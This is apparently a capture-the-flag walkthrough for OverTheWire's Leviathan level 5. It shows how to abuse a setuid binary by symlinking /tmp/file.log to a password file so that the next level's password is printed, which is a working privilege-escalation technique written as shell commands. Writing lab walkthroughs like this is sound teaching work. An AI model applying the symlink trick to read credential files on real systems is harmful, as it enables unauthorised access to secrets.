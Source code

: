 # Leviathan Level 5

## Level Goal  

There is no information for this level, intentionally.


## Walkthrough 
Login to the server using the password obtained from the previous level [Leviathan level 4](../leviathan4/README.md). 

username: `leviathan5` 

```ssh
ssh leviathan5@leviathan.labs.overthewire.org -p 2223
```

With no description given first thing we do is check what is in the home directory.


```console
leviathan5@leviathan:~$ ls -al
total 28
drwxr-xr-x  2 root       root       4096 Aug 26  2019 .
drwxr-xr-x 10 root       root       4096 Aug 26  2019 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan6 leviathan5 7560 Aug 26  2019 leviathan5
-rw-r--r--  1 root       root        675 May 15  2017 .profile
```

There is an executable file `leviathan5` with the suid bit set.
When we run `leviathan5` we get an error stating it cannot find `file.log`.

```console
leviathan5@leviathan:~$ ./leviathan5 
Cannot find /tmp/file.log
```

What happens if the file exists ? Let's create the file.

```console
leviathan5@leviathan:~$ touch /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5

```

Nothing seems to have happened and the file is now deleted.

Let's try again but this time put some text in the file.

```console
leviathan5@leviathan:~$ echo "Hello" >  /tmp/file.log

leviathan5@leviathan:~$ ./leviathan5
Hello
```

The contents of the file was printed to screen and the file then deleted.

Since `leviathan5` file runs with leviathan6 permissions we can create a symbolic link between the password file and file.log and print the password.

```console
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log

leviathan5@leviathan:~$ ./leviathan5 
Uga*******
```
